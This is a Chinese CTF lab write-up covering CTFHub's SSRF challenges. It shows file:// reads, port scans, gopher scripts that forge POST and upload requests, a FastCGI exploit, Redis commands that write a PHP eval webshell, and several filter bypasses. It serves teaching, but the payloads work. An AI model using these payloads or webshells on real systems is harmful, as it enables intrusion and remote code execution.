


最近一直在学SSRF，正好在CTFHub上面发现一个[SSRF的技能树](https://www.ctfhub.com/#/skilltree)靶场，感觉不错，就做了做。该靶场涵盖了最基础的SSRF利用到SSRF攻击内网应用再到SSRF常规的Bypass思路，题目难度比较基础，对小白十分友好。

## 什么是 SSRF


SSRF (Server-Side Request Forgery，服务器端请求伪造)  是一种由攻击者构造请求，由服务端发起请求的安全漏洞，一般情况下，SSRF攻击的目标是外网无法访问的内网系统，也正因为请求是由服务端发起的，所以服务端能请求到与自身相连而与外网隔绝的内部系统。也就是说可以利用一个网络请求的服务，当作跳板进行攻击。

攻击者利用了可访问Web服务器（A）的特定功能 构造恶意payload；攻击者在访问A时，利用A的特定功能构造特殊payload，由A发起对内部网络中系统B（内网隔离，外部不可访问）的请求，从而获取敏感信息。**此时A被作为中间人（跳板）进行利用。**

SSRF漏洞的形成大多是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤和限制。  例如，黑客操作服务端从指定URL地址获取网页文本内容，加载指定地址的图片，下载等，利用的就是服务端请求伪造，SSRF利用存在缺陷的WEB应用作为代理 攻击远程 和 本地的服务器。

### **漏洞攻击方式**

1. 对外网，服务器所在内网，本地进行端口扫描（挨个试探），获取一些服务的banner信息
2. 攻击运行在内网或本地的应用程序
3. 对内网Web应用进行指纹识别，识别企业内部的资产信息，通过访问默认文件实现(如：readme文件)
4. 攻击内外网的Web应用，主要是使用HTTP GET请求就可以实现的攻击(比如strust2,SQli等)
5. 下载内网资源，利用file协议读取本地文件或资源等
6. 内部任意主机的任意端口发送精心构造的Payload
7. DOS攻击（请求大文件，始终保持连接Keep-Alive Always）
8. 进行跳板
9. 利用Redis未授权访问，HTTP CRLF注入实现getshell

过段时间我们会详细地总结一篇关于SSRF的文章。

下面我们进入今天的正题，该SSRF靶场共有三部分，下面我们依次讲解。


## 第一部分（Http、Dict和file等协议的利用）

### 内网访问

**题目描述：**

尝试访问位于127.0.0.1的flag.php吧

进入题目：


看到这样的url下意识想到ssrf，既然是让我们从目标主机内网环境访问其本地的flag.php，那我们就构造：

```
/?url=http://127.0.0.1/flag.php
```

如下图所示，成功访问到了目标机本地的flag.php：


### 伪协议读取文件

**题目描述：**

尝试去读取一下Web目录下的flag.php吧

此时，我们在去直接访问flag.php是得不到flag的：


既然是伪协议读取文件，在SSRF中常用的伪协议就是file:///协议了，其在ssrf中可以用来读取php源码。我们构造如下payload：

```
/?url=file:///var/www/html/flag.php
```

执行后，我们在右键查看源代码处发现了flag：


### 端口扫描

**题目描述：**

来来来性感CTFHub在线扫端口，据说端口范围是8000-9000哦。

进入题目，还是同样的页面：


既然告诉了我们是内网端口扫描，那我们就要利用ssrf漏洞探测目标主机上还开放了哪些端口。在SSRF中，dict协议与http协议可用来探测内网的主机存活与端口开放情况。

这里的端口扫描我们用burpsuite来完成。首先抓包，发送到Intruder进行爆破设置：


线程不要太大：


开始爆破探测：


如上图，最终我们在目标主机的8592端口上发现了Apache的web服务，我门再利用ssrf加http协议访问目标主机的8592端口即可得到flag：


## 第二部分（Gopher协议的利用）

> Gopher协议是 HTTP 协议出现之前，在 Internet  上常见且常用的一个协议，不过现在gopher协议用得已经越来越少了Gopher协议可以说是SSRF中的万金油。利用此协议可以攻击内网的  Redis、Mysql、FastCGI、Ftp等等，也可以发送 GET、POST 请求。这无疑极大拓宽了 SSRF 的攻击面。

### POST请求

**题目描述：**

这次是发一个HTTP POST请求。对了，ssrf是用php的curl实现的。并且会跟踪302跳转，我准备了一个302.php，可能对你有用哦。

进入题目，还是同样的页面：


我们进行目录扫描，发现了index.php和flag.php（302.php被删了，因为302.php里面是个302跳转，多余了没有必要）：



接着，我们将index.php和flag.php的源码读出来：

```
/?url=file:///var/www/html/index.php
/?url=file:///var/www/html/flag.php
```

index.php：

```
<?php

error_reporting(0);

if (!isset($_REQUEST['url'])){
header("Location: /?url=_");
exit;
}

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_REQUEST['url']);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_exec($ch);
curl_close($ch);
```

flag.php：

```
<?php

error_reporting(0);

if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1") {
echo "Just View From 127.0.0.1";
return;
}

$flag=getenv("CTFHUB");
$key = md5($flag);

if (isset($_POST["key"]) && $_POST["key"] == $key) {
echo $flag;
exit;
}
?>

<form action="/flag.php" method="post">
<input type="text" name="key">
<!-- Debug: key=<?php echo $key;?>-->
</form>
```

访问flag.php，告诉我们必须要从本地访问（由于是SSRF，所以不可能是修改XXF这么简单的），我们构造如下ssrf payload让目标机从本地访问flag.php：

```
http://127.0.0.1/flag.php
```

得到如下一个输入框：


右键查看源代码发现key：


看来应该是让我们输入这个key进入，从而得到flag，但是这里并没有提交的按钮啊，所以我们要自己构造post请求，将这个key发送过去。

然后，我们用gopher协议构造post请求：

```
import urllib.parse
payload =\
"""POST /flag.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=c384d200658f258e5b5c681bf0aa29a8
"""  

#注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(payload)
new = tmp.replace('%0A','%0D%0A')
result = 'gopher://127.0.0.1:80/'+'_'+new
result = urllib.parse.quote(result)
print(result)       # 这里因为是GET请求所以要进行两次url编码
```

**注意：上面那四个参数是POST请求必须的，即POST、Host、Content-Type和Content-Length。如果少了会报错的，而GET则不用。**

特别要注意Content-Length应为字符串“key=c384d200658f258e5b5c681bf0aa29a8”的长度。

执行该python脚本即可生成符合gopher协议格式的payload：

```
gopher%3A//127.0.0.1%3A80/_POST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250A%250D%250Akey%253Dc384d200658f258e5b5c681bf0aa29a8%250D%250A
```

然后直接把payload发送过去：

```
index.php/?url=gopher%3A//127.0.0.1%3A80/_POST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250A%250D%250Akey%253Dc384d200658f258e5b5c681bf0aa29a8%250D%250A
```

即可得到flag，但这里题目环境好像出了点问题，flag好像没了：


### 上传文件

**题目描述：**

这次需要上传一个文件到flag.php了。我准备了个302.php可能会有用。祝你好运。

和上面那道题一样，这个302.php没啥用。

进入题目，还是一样的页面：


首先进行目录扫描，发现flag.php：


直接访问不行，必须通过目标机本地访问：


构造如下payload进行ssrf，从目标机本地访问flag.php：

```
/?url=http://127.0.0.1/flag.php
```


如上图所示，得到一个文件上传的页面，让我们上传一个Webshell。

这题和上一题“POST请求”其实差不多，只不过上一题用POST方法传递key，这道题用POST方法传递的是文件。

接着，我们将index.php和flag.php的源码读出来：

```
/?url=file:///var/www/html/index.php
/?url=file:///var/www/html/flag.php
```

index.php：

```
<?php

error_reporting(0);

if (!isset($_REQUEST['url'])) {
header("Location: /?url=_");
exit;
}

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_REQUEST['url']);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_exec($ch);
curl_close($ch);
```

flag.php：

```
<?php

error_reporting(0);

if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
echo "Just View From 127.0.0.1";
return;
}

if(isset($_FILES["file"]) && $_FILES["file"]["size"] > 0){
echo getenv("CTFHUB");
exit;
}
?>

Upload Webshell

<form action="/flag.php" method="post" enctype="multipart/form-data">
<input type="file" name="file">
</form>
```

可以发现flag.php确实是个文件上传的页面，且仅要求上传的文件大小大于0即可得到flag，并没有任何过滤。接下来我们尝试利用gopher协议上传文件。

首先就是要得到文件上传的数据包，才能编写gopher的payload。因此我们对这个文件上传的flag.php页面进行F12前端改写，添加一个submit提交按钮（但这里点击提交按钮是得不到flag的，必须从目标机本地访问哦）：


这样就添加了一个提交按钮，就可以真正的把文件上传了：


我们随便上传一个非空的文件，然后抓包，得到如下图所示的一个数据包：


我们只需要将里面的Host头改成127.0.0.1，然后复制到我们之前的那个python脚本中：

```
import urllib.parse
payload =\
"""POST /flag.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 328
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge-03512614d3fa8330.sandbox.ctfhub.com:10080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryraDVcM1y9juGcBJu
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://challenge-03512614d3fa8330.sandbox.ctfhub.com:10080/?url=http://127.0.0.1/flag.php
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryraDVcM1y9juGcBJu
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

<?php
eval($_POST[whoami]);
?>
------WebKitFormBoundaryraDVcM1y9juGcBJu
Content-Disposition: form-data; name="submit"

敕交
------WebKitFormBoundaryraDVcM1y9juGcBJu--
"""  

#注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(payload)
new = tmp.replace('%0A','%0D%0A')
result = 'gopher://127.0.0.1:80/'+'_'+new
result = urllib.parse.quote(result)
print(result)       # 这里因为是GET请求所以要进行两次url编码
```

执行该python脚本即可生成符合gopher协议格式的payload：

```
gopher%3A//127.0.0.1%3A80/_POST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%250D%250AContent-Length%253A%2520328%250D%250ACache-Control%253A%2520max-age%253D0%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250AOrigin%253A%2520http%253A//challenge-03512614d3fa8330.sandbox.ctfhub.com%253A10080%250D%250AContent-Type%253A%2520multipart/form-data%253B%2520boundary%253D----WebKitFormBoundaryraDVcM1y9juGcBJu%250D%250AUser-Agent%253A%2520Mozilla/5.0%2520%2528Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64%2529%2520AppleWebKit/537.36%2520%2528KHTML%252C%2520like%2520Gecko%2529%2520Chrome/86.0.4240.198%2520Safari/537.36%250D%250AAccept%253A%2520text/html%252Capplication/xhtml%252Bxml%252Capplication/xml%253Bq%253D0.9%252Cimage/avif%252Cimage/webp%252Cimage/apng%252C%252A/%252A%253Bq%253D0.8%252Capplication/signed-exchange%253Bv%253Db3%253Bq%253D0.9%250D%250AReferer%253A%2520http%253A//challenge-03512614d3fa8330.sandbox.ctfhub.com%253A10080/%253Furl%253Dhttp%253A//127.0.0.1/flag.php%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.9%250D%250AConnection%253A%2520close%250D%250A%250D%250A------WebKitFormBoundaryraDVcM1y9juGcBJu%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522shell.php%2522%250D%250AContent-Type%253A%2520application/octet-stream%250D%250A%250D%250A%253C%253Fphp%250D%250Aeval%2528%2524_POST%255Bwhoami%255D%2529%253B%250D%250A%253F%253E%250D%250A------WebKitFormBoundaryraDVcM1y9juGcBJu%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522submit%2522%250D%250A%250D%250A%25C3%25A6%25C2%258F%25C2%2590%25C3%25A4%25C2%25BA%25C2%25A4%250D%250A------WebKitFormBoundaryraDVcM1y9juGcBJu--%250D%250A
```

然后直接把gopher协议的payload发送过去：

```
index.php?url=gopher%3A//127.0.0.1%3A80/_POST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%250D%250AContent-Length%253A%2520328%250D%250ACache-Control%253A%2520max-age%253D0%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250AOrigin%253A%2520http%253A//challenge-03512614d3fa8330.sandbox.ctfhub.com%253A10080%250D%250AContent-Type%253A%2520multipart/form-data%253B%2520boundary%253D----WebKitFormBoundaryraDVcM1y9juGcBJu%250D%250AUser-Agent%253A%2520Mozilla/5.0%2520%2528Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64%2529%2520AppleWebKit/537.36%2520%2528KHTML%252C%2520like%2520Gecko%2529%2520Chrome/86.0.4240.198%2520Safari/537.36%250D%250AAccept%253A%2520text/html%252Capplication/xhtml%252Bxml%252Capplication/xml%253Bq%253D0.9%252Cimage/avif%252Cimage/webp%252Cimage/apng%252C%252A/%252A%253Bq%253D0.8%252Capplication/signed-exchange%253Bv%253Db3%253Bq%253D0.9%250D%250AReferer%253A%2520http%253A//challenge-03512614d3fa8330.sandbox.ctfhub.com%253A10080/%253Furl%253Dhttp%253A//127.0.0.1/flag.php%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.9%250D%250AConnection%253A%2520close%250D%250A%250D%250A------WebKitFormBoundaryraDVcM1y9juGcBJu%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522shell.php%2522%250D%250AContent-Type%253A%2520application/octet-stream%250D%250A%250D%250A%253C%253Fphp%250D%250Aeval%2528%2524_POST%255Bwhoami%255D%2529%253B%250D%250A%253F%253E%250D%250A------WebKitFormBoundaryraDVcM1y9juGcBJu%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522submit%2522%250D%250A%250D%250A%25C3%25A6%25C2%258F%25C2%2590%25C3%25A4%25C2%25BA%25C2%25A4%250D%250A------WebKitFormBoundaryraDVcM1y9juGcBJu--%250D%250A
```

如下图所示，得到flag：


### FastCGI协议

**题目描述：**

这次，我们需要攻击一下fastcgi协议咯。也许附件的文章会对你有点帮助。

进入题目，还是一样的页面：


目录扫描啥也没有。既然题目说了是FastCGI，应该是让我们利用SSRF攻击FastCGI。

> **FastCGI**
>
> Wikipedia对FastCGI的解释：**快速通用网关接口**（**Fast****C**ommon **G**ateway **I**nterface／**FastCGI**）是一种**让交互程序与Web服务器通信的协议**。FastCGI是早期通用网关接口（CGI）的增强版本。FastCGI致力于减少网页服务器与CGI程序之间交互的开销，从而使服务器可以同时处理更多的网页请求。
>
> **php-fpm**
>
> 官方对php-fpm的解释是**FPM（FastCGI 进程管理器）用于替换 PHP FastCGI 的大部分附加功能，对于高负载网站是非常有用的。**也就是说**php-fpm是FastCGI的一个具体实现**，其默认监听9000端口。
>
> **php-fpm攻击实现原理**
>
> 想要分析它的攻击原理需要从FastCGI协议封装数据内容来看，这里仅对攻击原理做简要描述，[CGI 和 FastCGI 协议的运行原理](https://www.cnblogs.com/itbsl/p/9828776.html)这篇文章中详细介绍了FastCGI协议的内容，其攻击原理就是在设置环境变量实际请求中会出现一个`SCRIPT_FILENAME': '/var/www/html/index.php`这样的键值对，它的意思是php-fpm会执行这个文件，但是这样即使能够控制这个键值对的值，但也只能控制php-fpm去执行某个已经存在的文件，不能够实现一些恶意代码的执行。
>
> 而在php5.3.9后来的版本中，php增加了安全选项导致只能控制php-fpm执行一些php、php4这样的文件，这也增大了攻击的难度。但是好在php官方允许通过PHP_ADMIN_VALUE和PHP_VALUE去动态修改php的设置。
>
> 那么当设置php环境变量为：`auto_prepend_file = php://input;allow_url_include = On`时，就会在执行php脚本之前包含环境变量`auto_prepend_file`所指向的文件内容，`php://input`也就是接收POST的内容，这个我们可以在FastCGI协议的body控制为恶意代码，这样就在理论上实现了php-fpm任意代码执行的攻击。
>
> 详情请看：https://bbs.ichunqiu.com/thread-58455-1-1.html

接下来，我们使用 [Gopherus](https://github.com/tarunkant/Gopherus)工具生成攻击FastCGI的payload。


利用条件：

- libcurl版本>=7.45.0
- PHP-FPM监听端口
- PHP-FPM版本 >= 5.3.3
- 知道服务器上任意一个php文件的绝对路径

下面我们就利用这个工具来执行命令，网web目录里面写Webshell：

```
python gopherus.py --exploit fastcgi
/var/www/html/index.php                 # 这里输入的是一个已知存在的php文件
echo PD9waHAgZXZhbCgkX1JFUVVFU1RbJ2xwcCddKTs/Pg== | base64 -d > /var/www/html/shell.php
```


如上图所示获得payload：

```
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH139%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%8B%04%00%3C%3Fphp%20system%28%27echo%20PD9waHAgZXZhbCgkX1JFUVVFU1RbJ2xwcCddKTs/Pg%3D%3D%20%7C%20base64%20-d%20%3E%20/var/www/html/shell.php%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

然后进行二次编码后将最终的payload内容放到?url=后面发送过去（这里需要进行两次编码，因为这里GET会进行一次解码，curl也会再进行一次解码）：

```
gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2505%2505%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2503CONTENT_LENGTH139%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500%258B%2504%2500%253C%253Fphp%2520system%2528%2527echo%2520PD9waHAgZXZhbCgkX1JFUVVFU1RbJ2xwcCddKTs%2FPg%253D%253D%2520%257C%2520base64%2520-d%2520%253E%2520%2Fvar%2Fwww%2Fhtml%2Fshell.php%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```



最后，用蚁剑连接webshell成功：


在根目录找到flag：


### Redis协议

主要是利用Redis未授权访问，实现像目标主机写入Webshell、SSH公钥，或写入计划任务实现反弹shell。

> Redis是一个key-value存储系统。Redis（Remote Dictionary Server )，即远程字典服务，是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。
>
> Redis 在默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将  Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空），会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取  Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的 config  命令，可以进行写文件操作，攻击者可以成功将自己的ssh公钥写入目标服务器的 /root/.ssh 文件夹的 authotrized_keys  文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器。，也可以直接写入Webshell或者写入计划任务进行反弹shell。

**题目描述：**

这次来攻击redis协议吧，redis://127.0.0.1:6379。资料？没有资料！自己找！

进入题目，还是那个页面：


目录扫描啥也没有。既然是Redis，那么应该就是利用SSRF对目标主机上的Redis进行未授权访问攻击。

我们先来探测一下目标主机开启的端口吧，方法同之前的题目——“端口扫描”：


如上图所示，我们在目标主机的6379端口上发现了Redis的报错，说明目标主机上确实运行着Redis服务，并且端口为其默认端口6379。

利用未授权访问攻击Redis的方法有很多，我们可以写webshell、反弹shell，也可以写ssh公钥，这里我们用写webshell的方法。

构造redis命令

```
flushall
set 1 '<?php eval($_POST["whoami"]);?>'
config set dir /var/www/html
config set dbfilename shell.php
save
```

我们利用如下Exp脚本生成符合gopher协议格式的payload：

```
import urllib
protocol="gopher://"
ip="127.0.0.1"
port="6379"
shell="\n\n<?php eval($_POST[\"whoami\"]);?>\n\n"
filename="shell.php"
path="/var/www/html"
passwd=""
cmd=["flushall",
"set 1 {}".format(shell.replace(" ","${IFS}")),
"config set dir {}".format(path),
"config set dbfilename {}".format(filename),
"save"
]
if passwd:
cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
CRLF="\r\n"
redis_arr = arr.split(" ")
cmd=""
cmd+="*"+str(len(redis_arr))
for x in redis_arr:
cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
cmd+=CRLF
return cmd

if __name__=="__main__":
for x in cmd:
payload += urllib.quote(redis_format(x))
print urllib.quote(payload)    # 由于我们这里是GET，所以要进行两次url编码
```

执行后生成如下payload：

```
gopher%3A//127.0.0.1%3A6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252435%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_POST%255B%2522whoami%2522%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A/var/www/html%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A
```

我们直接把该paylaod用GET方法发送过去：

```
index.php?url=gopher%3A//127.0.0.1%3A6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252435%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_POST%255B%2522whoami%2522%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A/var/www/html%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A
```


最后用用蚁剑连接Webshell：


在根目录得到flag：


## 第三部分（Bypass）

### URL Bypass

进入题目，给出如下提示：


说url必须以 “http://notfound.ctfhub.com” 开头。我们可以利用`@`来绕过，如 [http://whoami@127.0.0.1](http://127.0.0.1)实际上是以用户名 whoami 连接到站点127.0.0.1，即 [http://notfound.ctfhub.com@127.0.0.1](http://127.0.0.1)与 http://127.0.0.1请求是相同的，该请求得到的内容都是127.0.0.1的内容。

我们扫描目录，发现了flag.php，构造如下payload即可绕过限制访问flag.php：

```
/?url=http://notfound.ctfhub.com@127.0.0.1/flag.php
```


### 数字IP Bypass

**题目描述：**

无

进入题目，还以那个页面：


扫描目录发现flag.php，直接访问它，报错说必须从目标机本地访问：


我们构造`/?url=http://127.0.0.1/flag.php`，发现127被检测了


绕过127.0.0.1的方法有很多，如下给出几个实例：

- **利用进制的转换**

可以使用一些不同的进制替代ip地址，从而绕过WAF，这里给出个php脚本可以一键转换。

```
<?php
$ip = '127.0.0.1';
$ip = explode('.',$ip);
$r = ($ip[0] << 24) | ($ip[1] << 16) | ($ip[2] << 8) | $ip[3] ;
if($r < 0) {
$r += 4294967296;
}
echo "十进制:";
echo $r;
echo "八进制:";
echo decoct($r);
echo "十六进制:";
echo dechex($r);
?>
```

得到：

```
127.0.0.1:
八进制：0177.0.0.1
十六进制：0x7f.0.0.1
十进制：2130706433
```


如上图所示，得到flag。

- **利用其他各种指向127.0.0.1的地址**

```
http://localhost/
http://0/
http://[0:0:0:0:0:ffff:127.0.0.1]/
http://①②⑦.⓪.⓪.①
```


如上图所示，得到flag。

### 302跳转 Bypass

**题目描述：**

无

进入题目，还以那个页面：


扫描目录发现flag.php，直接访问它，报错说必须从目标机本地访问：


我们构造`/?url=http://127.0.0.1/flag.php`，发现被检测了：


很迷。。。

我们利用尝试302跳转进行bypass。

在网络上存在一个很神奇的服务，网址为 [http://xip.io](http://xip.io/)，当访问这个服务的任意子域名的时候，都会重定向到这个子域名，举个例子：

当我们访问 http://127.0.0.1.xip.io/flag.php，那么实际上我们访问的是就 http://127.0.0.1/flag.php。

我们尝试一下，却发现失败了：


还是被检测了，我觉得应该还是检测了127.0.0.1，我们结合上一道题，将127.0.0.1用0或localhost等代替：

```
http://0.xip.io/flag.php
http://localhost.xip.io/flag.php
http://①②⑦.⓪.⓪.①.xip.io/flag.php
```


如上图所示，成功得到flag。

还有一个302跳转的方法，即利用短地址跳转绕过，，这里也给出一个网址 https://4m.cn/：


直接使用生成的短连接 https://4m.cn/FjOdQ就会自动302跳转到 http://127.0.0.1/flag.php上，这样就可以绕过WAF了：


### DNS重绑定 Bypass

刚开始和上面那道题一样，当我们尝试通过SSRF访问flag.php时，被检测了：

```
/?url=http://127.0.0.1/flag.php
```


尝试302跳转的bypass方法借以失败告终：


既然题目说是DNS重绑定，那我们就尝试利用DNS重绑定来bypass。

> 对于常见的IP限制，后端服务器可能通过下图的流程进行IP过滤：
>
> 
>
> 对于用户请求的URL参数，首先服务器端会对其进行DNS解析，然后对于DNS服务器返回的IP地址进行判断，如果在黑名单中，就pass掉。
>
> 但是在整个过程中，第一次去请求DNS服务进行域名解析到第二次服务端去请求URL之间存在一个时间差，利用这个时间差，我们可以进行DNS 重绑定攻击。我们利用DNS  Rebinding技术，在第一次校验IP的时候返回一个合法的IP，在真实发起请求的时候，返回我们真正想要访问的内网IP即可。
>
> 要完成DNS重绑定攻击，我们需要一个域名，并且将这个域名的解析指定到我们自己的DNS Server，在我们的可控的DNS Server上编写解析服务，设置TTL时间为0，这是为了防止有DNS服务器对解析结果进行缓存。这样就可以进行攻击了，完整的攻击流程为：
>
> 1. 服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP
> 2. 对于获得的IP进行判断，发现为非黑名单IP，则通过验证
> 3. 服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。
> 4. 由于已经绕过验证，所以服务器端返回访问内网资源的结果。
>
> 参考：https://www.freebuf.com/articles/web/135342.html

由于我们无法在程序运行时以毫秒为单位手动更改dns记录，因此需要配置一个自定义DNS服务器，并设定好某些域名的解析IP，再将TTL设置为0，这样后端就不会有缓存。我们可以自己编写解析服务，也可以利用这个网站获取一个测试用的域名：https://lock.cmpxchg8b.com/rebinder.html


但是它只能在2个IP之间随机变化，因此往往需要发送多个请求才能得到我想要的结果。

我们利用该域名即可绕过限制成功访问flag.php得到flag，但是要不停访问数次才行（可以借助burpsuite）：

```
/?url=7f000001.2f653948.rbndr.us/flag.php
```


如上图得到flag。

访问过程中会不断出现以下报错，这是因为这个域名是不断的在127.0.0.1与47.xxx.xxx.72之间跳动的，所以要不断访问数次：


我们可以借助burpsuite：


## Ending......